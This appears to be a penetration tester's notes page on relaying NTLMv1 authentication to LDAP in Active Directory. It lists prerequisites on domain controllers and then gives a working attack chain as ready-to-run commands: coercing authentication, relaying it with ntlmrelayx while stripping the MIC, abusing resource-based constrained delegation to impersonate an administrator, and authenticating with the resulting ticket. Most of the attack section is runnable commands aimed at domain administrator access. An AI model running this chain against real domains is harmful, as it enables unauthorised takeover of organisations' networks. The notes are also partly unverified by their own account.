 # NTLMv1

## Relaying NTLMv1

### LDAP

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- The other Domain Controller with a LanMan Compatability setting at or less than '4' (Relay Target)(Requires verification. Lab results suggest a value of '5' still works for NTLM through LDAP?)

#### Optional Requirements (Depends on attack vector)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- LDAP Channel Binding and Signing both not enforced
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```
sudo impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```